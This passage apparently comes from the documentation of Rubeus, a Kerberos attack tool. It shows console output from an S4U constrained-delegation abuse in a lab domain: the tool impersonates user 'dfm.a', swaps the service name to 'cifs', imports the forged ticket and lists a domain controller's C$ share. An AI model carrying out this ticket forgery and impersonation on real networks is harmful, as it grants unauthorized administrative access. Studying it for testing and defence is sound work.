         doIE+jCCBPagAwIBBaEDAgEWoo..(snip)..


    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
    [*] base64(ticket.kirbi):

        doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..

    [*] Impersonating user 'dfm.a' to target SPN 'ldap/PRIMARY.testlab.local'
    [*]   Final ticket will be for the alternate service 'cifs'
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2641 bytes
    [*] Received 1829 bytes
    [+] S4U2proxy success!
    [*] Substituting alternative service name 'cifs'
    [*] base64(ticket.kirbi) for SPN 'cifs/PRIMARY.testlab.local':

        doIGujCCBragAwIBBaEDAgEWoo..(snip)..

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    C:\Rubeus>dir \\primary.testlab.local\C$
    Volume in drive \\primary.testlab.local\C$ has no label.
    Volume Serial Number is A48B-4D68

    Directory of \\primary.testlab.local\C$

    07/05/2018  12:57 PM    <DIR>          dumps
    03/05/2017  04:36 PM    <DIR>          inetpub
    08/22/2013  07:52 AM    <DIR>          PerfLogs
    04/15/2017  05:25 PM    <DIR>          profiles
    08/28/2018  11:51 AM    <DIR>          Program Files
    08/28/2018  11:51 AM    <DIR>          Program Files (x86)
    10/09/2018  12:04 PM    <DIR>          Temp
    08/23/2018  03:52 PM    <DIR>          Users
    10/25/2018  01:15 PM    <DIR>          Windows
                1 File(s)              9 bytes
                9 Dir(s)  40,511,676,416 bytes free


## Ticket Management

Breakdown of the ticket management commands:
